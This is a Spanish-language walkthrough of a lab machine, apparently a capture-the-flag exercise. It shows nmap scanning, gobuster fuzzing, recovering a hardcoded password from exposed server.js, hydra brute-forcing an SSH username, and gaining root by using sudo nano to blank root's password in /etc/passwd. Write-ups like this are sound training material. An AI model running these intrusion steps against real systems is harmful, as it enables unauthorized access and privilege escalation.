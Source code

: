 ## 1. Reconocimiento Inicial de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos, sus versiones y el sistema operativo. Esto nos ayuda a entender qué servicios están expuestos y si hay alguna vulnerabilidad conocida asociada a sus versiones.

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `80/tcp open http Apache httpd 2.4.61`: El puerto 80 está abierto y ejecuta un servidor web Apache.
*   `3000/tcp open http Node.js Express framework`: El puerto 3000 está abierto y ejecuta una aplicación Node.js Express. Esto es interesante, ya que las aplicaciones web a menudo contienen vulnerabilidades.
*   `5000/tcp open ssh OpenSSH 9.2p1 Debian`: El puerto 5000 está abierto y ejecuta OpenSSH. Es importante notar que el puerto SSH no es el estándar (22), lo que podría indicar una configuración personalizada.

## 2. Enumeración Web y Descubrimiento de Información Sensible

La presencia de un servidor web Apache y una aplicación Node.js en el puerto 3000 sugiere que la enumeración web será crucial.

### 2.1. Inspección de la Página Web (Puerto 80)

Al visitar la página web en el puerto 80 (`http://<IP_DEL_OBJETIVO>`), encontramos un botón que no funciona. Esto es una pista para inspeccionar el código fuente de la página.

### 2.2. Análisis del Código Fuente y Archivo JavaScript

Al inspeccionar el código fuente de la página web, encontramos un enlace a un archivo JavaScript: `http://<IP_DEL_OBJETIVO>/authentication.js`. Accedemos a este archivo y encontramos una función `autenticate()` que contiene un mensaje en la consola:

```javascript
function autenticate() {
    console.log("Para opciones de depuracion, el token de /recurso/ es tokentraviesito");
}
```

Este mensaje nos indica que hay un endpoint `/recurso/` que requiere un token de autenticación, y nos proporciona el token: `tokentraviesito`.

### 2.3. Fuzzing Web (Gobuster)

Aunque ya tenemos una pista importante, realizar un fuzzing de directorios con `gobuster` es una buena práctica para descubrir otras rutas o archivos ocultos en el servidor web.

```bash
gobuster dir -u http://<IP_DEL_OBJETIVO>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

**Resultados Relevantes:**

*   `/backend` (Status: 301) [--> `http://<IP_DEL_OBJETIVO>/backend/`]: Este directorio es redirigido, lo que indica que contiene contenido.

Al explorar `http://<IP_DEL_OBJETIVO>/backend/`, encontramos una lista de archivos, incluyendo `server.js`.

## 3. Análisis del Código del Servidor (server.js)

El archivo `server.js` es el código fuente de la aplicación Node.js Express. Analizarlo nos dará una comprensión más profunda de cómo funciona la aplicación y cómo podemos explotarla.

### 3.1. Contenido de `server.js`

```javascript
const express = require(\'express\');
const app = express();

const port = 3000;

app.use(express.json());

app.post(\'/recurso/\', (req, res) => {
    const token = req.body.token;
    if (token === \'tokentraviesito\') {
        res.send(\'lapassworddebackupmaschingonadetodas\');
    } else {
        res.status(401).send(\'Unauthorized\');
    }
});

app.listen(port, \'0.0.0.0\', () => {
    console.log(`Backend listening at http://consolelog.lab:${port}`);
});
```

**Análisis del Código:**

*   La aplicación escucha en el puerto 3000.
*   Define una ruta POST `/recurso/`.
*   Verifica si el `token` enviado en el cuerpo de la solicitud (`req.body.token`) es igual a `tokentraviesito`.
*   Si el token es correcto, envía como respuesta la cadena `lapassworddebackupmaschingonadetodas`.

¡Hemos encontrado la contraseña! La contraseña es `lapassworddebackupmaschingonadetodas`.

## 4. Acceso Inicial (SSH)

Ahora que tenemos una contraseña, necesitamos un nombre de usuario para intentar acceder vía SSH (puerto 5000).

### 4.1. Fuerza Bruta SSH para Obtener el Usuario

Utilizamos `hydra` para realizar un ataque de fuerza bruta, pero esta vez, con la contraseña que ya conocemos, intentaremos adivinar el nombre de usuario. Usaremos un diccionario de nombres de usuario comunes.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://<IP_DEL_OBJETIVO>:5000 -s 22 -t 64
```

**Resultado Clave:**

```bash
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
```

Esto nos proporciona el nombre de usuario: `lovely`.

### 4.2. Conexión SSH

Con las credenciales obtenidas (`lovely:lapassworddebackupmaschingonadetodas`), nos conectamos al servidor SSH.

```bash
ssh -p 5000 lovely@<IP_DEL_OBJETIVO>
# Contraseña: lapassworddebackupmaschingonadetodas
```

## 5. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `lovely`, el objetivo es escalar privilegios a `root`.

### 5.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario `lovely` con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(ALL) NOPASSWD: /usr/bin/nano`

Esto significa que el usuario `lovely` puede ejecutar el editor de texto `nano` como cualquier usuario (incluido `root`) sin necesidad de introducir su contraseña.

### 5.2. Manipulación de `/etc/passwd` para Obtener Root

El archivo `/etc/passwd` contiene información sobre los usuarios del sistema. La segunda columna de cada entrada (separada por dos puntos `:`) suele contener una `x` si la contraseña está almacenada en `/etc/shadow`. Si eliminamos la `x` para el usuario `root`, podemos iniciar sesión como `root` sin contraseña.

1.  **Editar `/etc/passwd` con `nano` como `root`:**

```bash
sudo -u root /usr/bin/nano /etc/passwd
```

    Dentro de `nano`, busca la línea que comienza con `root:` y elimina la `x` después del primer dos puntos. La línea debería cambiar de `root:x:0:0:root:/root:/bin/bash` a `root::0:0:root:/root:/bin/bash`.

2.  **Guardar y Salir:** Guarda los cambios (Ctrl+O, Enter) y sal de `nano` (Ctrl+X).

3.  **Cambiar a `root`:** Ahora, puedes usar el comando `su root` (o simplemente `su`) y no te pedirá contraseña.

```bash
su root
```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```

